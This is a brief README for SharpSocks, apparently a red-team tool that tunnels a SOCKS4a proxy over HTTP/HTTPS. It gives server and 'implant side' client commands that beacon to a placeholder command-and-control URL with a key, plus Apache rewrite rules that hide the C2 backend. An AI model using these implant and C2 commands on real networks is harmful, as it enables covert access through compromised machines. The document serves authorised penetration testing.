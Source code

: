# SharpSocks 2017 Nettitude
Tunnellable HTTP/HTTPS socks4a proxy written in C# and deployable via PowerShell

Written by Rob Maslen @rbmaslen

# Usage Server 
SharpSocks -Server -IPAddress 192.168.1.10 -Uri https://www.c2url.com:443 -SocksPort 43334 

# Usage Client (Implant side)
SharpSocks -Client -Uri https://www.c2url.com:443 -Key PTDWISSNRCThqmpWEzXFZ1nSusz10u0qZ0n0UjH66rs= -Channel 7f404221-9f30-470b-b05d-e1a922be3ff6 -URLs "site/review/access","upload/data/images" -Beacon 2000

# Apache ReWrite Rule (c2 proxy)
Define SharpSocks 10.0.0.1
RewriteRule ^/site/review/access(.*) https://${SharpSocks}:443/site/review/access$1 [NC,P]
RewriteRule ^/upload/data/images(.*) https://${SharpSocks}:443/upload/data/images$1 [NC,P]

# License
FreeBSD 3
